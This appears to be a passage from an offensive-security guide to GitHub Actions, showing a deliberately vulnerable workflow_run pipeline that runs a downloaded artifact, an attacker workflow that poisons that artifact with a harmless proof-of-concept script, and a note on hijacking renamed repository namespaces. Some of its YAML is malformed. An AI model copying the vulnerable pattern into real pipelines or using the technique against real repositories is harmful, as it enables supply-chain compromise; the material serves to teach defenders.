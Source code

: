 Example of vulnerable workflow:

```yaml
on:
  workflow_run:
    workflows: ["some workflow"]
    types:
      - completed

jobs:
  success:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - name: download artifact
        uses: dawidd6/action-download-artifact
        with:
          workflow: ${{ github.event.workflow_run.workflow_id }}
          name: artifact
      - run: python ./script.py
        with:
          name: artifact
          path: ./script.py
```

This could be attacked with this workflow:

```yaml
name: "some workflow"
on: pull_request

jobs:
    upload:
        runs-on: ubuntu-latest
        steps:
            - run: echo "print('exploited')" > ./script.py
            - uses actions/upload-artifact@v2
              with:
                name: artifact
                path: ./script.py
```

---

## Other External Access

### Deleted Namespace Repo Hijacking

If an account changes it's name another user could register an account with that name after some time. If a repository had **less than 100 stars previously to the change of nam**e, Github will allow the new register user with the same name to create a **repository with the same name** as the one deleted.
